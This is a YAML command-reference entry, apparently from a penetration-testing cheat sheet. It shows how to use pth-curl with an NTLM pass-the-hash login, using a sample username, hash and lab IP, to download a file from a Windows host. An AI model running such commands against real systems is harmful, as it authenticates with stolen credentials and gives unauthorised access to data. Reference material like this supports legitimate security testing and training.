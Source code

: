 ```yaml
---
description: Download files from a remote server using curl with NTLM Pass-the-Hash authentication.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-curl --ntlm -u john:580B16D486D8D2CAFA00B314D41FA396 http://10.10.10.1/secret.txt

items:
  - Hash

services:
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration

references:
  - https://curl.se/docs/manual.html
  - https://github.com/byt3bl33d3r/pth-toolkit
---
```

